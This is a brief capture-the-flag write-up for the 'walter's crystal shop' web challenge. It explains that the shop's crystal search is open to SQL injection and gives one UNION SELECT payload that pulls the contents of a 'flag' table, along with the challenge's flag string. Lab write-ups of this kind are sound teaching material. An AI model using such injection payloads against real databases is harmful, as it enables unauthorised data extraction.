


# walter's crystal shop

### Challenge:
##### My buddy Walter is selling some crystals, check out his shop!

##### Links: [walters-crystal-shop.chal.nbctf.com](https://walters-crystal-shop.chal.nbctf.com)
##### Files: [walters_crystal_shop.zip](walters_crystal_shop.zip)

### Solution:

There's a sql injection in the crystal search, by looking at the source code we can see the flag is in a table called flag (:O).
Knowing this we can get our flag with this payload:

```
a' union select flag,2,3 from flag-- -
```




Flag: ```nbctf{h0p3fuLLy_7h3_D3A_d035n7_kn0w_ab0ut_th3_0th3r_cRyst4l5}```